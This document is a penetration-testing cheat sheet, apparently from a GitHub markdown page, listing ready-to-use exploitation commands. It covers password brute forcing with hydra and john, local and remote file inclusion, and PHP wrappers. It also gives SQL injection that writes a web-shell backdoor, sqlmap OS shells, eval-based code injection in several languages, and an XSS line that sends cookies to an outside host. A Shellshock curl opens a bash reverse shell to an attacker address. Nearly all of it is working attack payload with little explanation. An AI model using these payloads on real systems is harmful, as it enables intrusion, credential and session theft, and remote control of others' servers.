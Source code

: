 # Exploitation

## Credentials

Create Passwd Directory for Brute Force

``` bash
cewl -m 5 http://$ip/joomla/ > passwd.txt
```

Default Credentials

``` bash
ls /usr/share/seclists/Passwords/Default-Credentials
```

Crack hash

``` bash
john hash --wordlist=/home/kali/tools/directory/rockyou.txt
```

Broute force

``` bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.169.106 --http-post-form '/login:user=^USER^,pass=^PASS^:Unauthorized'
```

## Directory Traversal

Unix

``` bash
/etc/passwd
```

Windows

```
c:\windows\system32\drivers\etc\hosts
```

## PHP Wrappers

Inject php code via plantext 

``` bash
http://ip/file.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

Inject php code via base64

``` bash
http://ip/file.php?file=data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=dir
```

Encode base64 file before read it.

``` bash
http://ip/file.php?file=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

## File Inclusion

### Local File Inclusion

Null byte: `%00`

Write payload to `access.log` file

``` bash
$ nc -nv 192.168.11.131 80
(UNKNOWN) [192.168.11.131] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

Get RCE via file inclusion

``` bash
curl http://192.168.11.131/file.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Remote File Inclusion

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

``` bash
curl http://target/?page=http://$ip/backdoor.txt&cmd=id
```

## SQL Injection

### Authentication Bypass

``` bash
admin' or 1=1 LIMIT 1;#
```

### Enumerating the Database

``` bash
order by 3
```

``` bash
union all select 1, 2, 3
```

``` bash
union all select 1, @@version, 3
```

``` bash
union all select 1, table_name from information_schema.tables, 3
```

``` bash
union all select 1, column_name from information_schema.columns where table_name='users', 3
```

``` bash
union all select 1, username, password from users
```

### SQLi to Code Execution

Read file

``` bash
union all select 1, load_file('C:/Windows/System32/drivers/etc/hosts'), 3
```

Write backdoor

``` bash
union all select 1, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php', 3
```

### Automating SQL Injection

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id"
```

dump databases

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id" --dbms=mysql --dump
```

execute a shell

``` bash
sqlmap -u http://$ip/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

## <a href='https://github.com/mubix/shellshocker-pocs' target="blank">Shellshock POC</a>

``` bash
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/$myip/445 0>&1'" http://$ip/cgi-bin/user.sh
```

## Command Execution

```bash
;id
`id`
$(id)
```

## Code Execution

Ruby 

``` bash
eval "\""+params['1']+"\""

?1="%2b`id`%2b"
```

Python

``` bash
eval('"'+1+'"')

"%2bos.system('id')%2b"

"%2bos.popen('id').read()%2b"

"%2b__import__('os').popen('id').read()%2b"

"%2b__import__('os').popen(__import__('base64').b64decode('aWQ=')).read()%2b"
```

Perl

``` bash
eval("return '".$FORM{1}."'");

/cgi-bin/form?1='.`id`.'
```

PHP

<a href='https://www.php.net/manual/en/function.eval.php' target="blank">eval()</a>

``` bash
$s="echo \"".$_GET['1']."\";";

eval($s);

?1=".system('id')."
```

usort()

``` bash
$1 = $_GET["1"];

usort(function('$a, $b', 'return strcmp($a->'.$1.',$b->'.$1.');'));

?1=id);}system('id');//
```

preg_replace()

``` bash
preg_replace($_GET["1"], $_GET["2"], $_GET["3"]);

?1=/x/e&2=system('id')&3=x
```

assert()

``` bash
assert(trim("'".$_GET['1']."'"));

echo htmlentities($_GET['1']);

?1=hacker'.system('id').'
```

## XSS Basic Exploit

Break code

``` bash
< > ' " { } ;
```

Content Injection

```
<iframe src=http://ip/report height="0" width="0"></iframe>
```

Stealing Cookies and Session Information

```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```
